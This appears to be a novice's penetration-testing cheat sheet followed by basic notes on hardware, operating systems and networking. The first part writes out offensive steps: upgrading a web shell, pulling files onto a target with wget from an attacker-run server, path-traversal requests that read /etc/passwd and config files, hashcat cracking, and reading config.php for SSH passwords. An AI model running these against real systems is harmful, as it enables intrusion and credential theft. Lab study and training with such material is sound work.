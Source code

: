 # Guide404
simple guide for noobs

----------------------GENERAL-----------------
(For every domain you find:)
1. nano /etc/hosts
(Harden the web shell)

2. python3 -c 'import pty; pty.spawn("/bin/bash")'   (SHELL HARDERING)
stty raw -echo; fg
export TERM=xterm
or
script /dev/null -c bash
stty raw -echo
fg
reset

3. (move one file from your machine to the target , if you have a ssh connection)
   --> python3 -m http.server 8888 (in the directory of yhe file you want to send)
   --> wget http://<myIP>:<port>/filename   (at target's pc)

--------------------LFI---------------------
1. (throught pdf export/download) (known exploitable files: https://github.com/hussein98d/LFI-files/blob/master/list.txt):
   --> (burpsuite) GET /download?filename=../../../../../etc/passwd HTTP/1.1
   --> GET /download?filename=../../config/database.yml HTTP/1.1

-----------------------------HASHES-----------------------------
1. go at hashcat id tables and ctr+F to searc your hash and take the id
2. hashcat -m <id> hash.txt /usr/share/wordlists/rockyou.txt

-----------------------------WEBSHELL-----------------------
(after you get a web shell)
1. python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
2. cat /var/www/limesurvey/application/config/config.php (you might find password for ssh)





                                                                                             SOME THEORY

A PC has those 5 components:
1)CPU     --> a) ALU (Arithmetic Logic Unit) does calculations   b) CU (Control unit) manage data/orders   c) Registers (short term storaging)  ||||| fetch->Decode->Excecute->Repeat
2)RAM     --> Fast temporary memory --> DDR4/DDR5
3)Hard Disk (ssd/hdd) or new gen (NVMe SSD)     -->SSD (faster,reliable,no noisy)   HDD (Bigger space than ssd, noisy and if it moves it can stop working)   
4)Motherboard
5)GPU
+ input/output devices (I/O)

inputs --> (CPU) processing --> (RAM/HardDisk) storage --> output


-----------------------------------------MEMORY-----------------------------------
overall memories --> a) Registers   b) Cashe (L1, fast but small|||L2,slow but bigger|||L3, even slower but bigger too)   c)RAM   d) HardDisk
when we open a program:
CPU loads it to the RAM from the HardDisk, and CPU reads it from the RAM and stores the data at Cache or Registers
If RAM is full, PC uses some space from HardDisk, like a Virtual Memory ----> Known us Paging (slower than RAM)


---------------------------------------OS--------------------------------
What it does?
1) CPU sheduling
2) RAM-VM sheduling
3) Storage management
4) I/O devices management
5) Files management

it has 4 parts:
1)Kernel: the core/brain of it, it communicates with the hardware and loads the programs at RAM.
2)Shell: the interface for the communication with the user
3)File System: the way the pc stores and manages the files (known ones: NTFS, FAT32, EXT4)
4)Drivers (softwares)

So when i open a PC, the 'Boot loader" loads the OS at RAM, the kernel starts the "start-ups" services and then every time you open a program: the OS loads it to the RAM, CPU execute the orders and the OS handle the data and communication user-program.

-------------------------------------Networking--------------------------------------
\nThe base of nowadays networks are the Nodes and the Links
Types of networks: 
1) LAN
2) WAN
3) WLAN (wireless)
4) VPN
   The protocoles used are:
1)IP  (manages the addresses on the network)
2)TCP (slower but reliable)
3)UDP (fast but not so reliable)

The model that is commonly used is the OSI Model:
That has 7 layers:
7)Application          (HTTP,HTTPS,QUICK) apis
6)Presentation         cryptography
5)Session              manages connections/sessions
4)Transport            TCP/UDP
3)Network              IP
2)Data Link            Machine-Machine
1)Physical             wires/signals




